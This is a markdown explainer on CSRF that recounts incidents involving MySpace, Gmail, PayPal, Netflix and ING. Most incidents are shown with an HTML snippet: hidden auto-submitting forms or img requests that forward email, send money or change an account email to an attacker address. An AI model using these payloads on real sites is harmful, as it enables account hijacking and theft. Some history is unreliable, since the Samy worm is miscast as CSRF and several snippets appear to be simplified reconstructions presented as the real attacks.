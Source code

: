 # Real-World CSRF Attacks & Prevention

## About

CSRF occurs when an attacker forces an authenticated user to perform unwanted actions on a web application without their consent. The attack is successful when the victim’s browser automatically sends session cookies (authentication credentials) along with the forged request.

## **The Samy Worm (2005) - MySpace CSRF Attack**

### **What Happened?**

* The attacker (Samy Kamkar) exploited a CSRF vulnerability in MySpace.
* He injected a self-replicating JavaScript payload that **automatically added him as a friend** when any logged-in user viewed his profile.
* The worm spread rapidly, **infecting over 1 million accounts within 24 hours**.

### **How It Worked**

```html
<img src="http://www.myspace.com/addfriend.php?friend_id=12345" />
```

* Any logged-in user who viewed Samy’s profile automatically **sent a request to add him as a friend** without their knowledge.

## **Gmail CSRF Attack (2007) – Stealing Emails**

### **What Happened?**

* A researcher demonstrated a **CSRF attack that stole Gmail emails**.
* Victims who were logged into Gmail could be tricked into visiting a malicious webpage.
* The webpage contained a CSRF attack that forwarded the victim’s emails to the attacker’s account.

### **How It Worked**

```html
<form action="https://mail.google.com/mail/h/12345678/?v=b&f=cs" method="POST">
    <input type="hidden" name="to" value="attacker@gmail.com">
    <input type="hidden" name="action" value="forward">
    <input type="submit">
</form>
<script>document.forms[0].submit();</script>
```

* As soon as the victim loaded the page, their emails were forwarded **without their consent**.

## **PayPal CSRF Attack (2010) – Unauthorized Fund Transfer**

### **What Happened?**

* An attacker demonstrated how **CSRF could be used to transfer money from a PayPal account**.
* The attacker hosted a malicious webpage that contained a **hidden form** that automatically submitted a money transfer request.

### **How It Worked**

```html
<form action="https://www.paypal.com/sendmoney" method="POST">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="recipient" value="attacker@gmail.com">
    <script>document.forms[0].submit();</script>
</form>
```

* If a logged-in PayPal user visited this page, **money was transferred to the attacker’s account automatically**.

## **Netflix CSRF Attack (2008) – Changing Account Details**

### **What Happened?**

* A vulnerability allowed attackers to **change email addresses and passwords of Netflix users**.
* If a user was logged in and visited a malicious site, their Netflix account was hijacked.

### **How It Worked**

```html
<img src="https://www.netflix.com/account/update_email?email=attacker@example.com">
```

* The victim’s Netflix account email was changed to an **attacker-controlled email**, effectively locking them out.

## **ING Bank CSRF Attack (2013) – Unauthorized Money Transfers**

### **What Happened?**

* Dutch bank **ING** suffered from a CSRF vulnerability that allowed attackers to **initiate unauthorized transactions**.

### **How It Worked**

1. Victim logs into their ING bank account.
2. Victim visits a malicious webpage with an **invisible form submission**.
3. The bank processes the forged request, transferring money to the attacker.
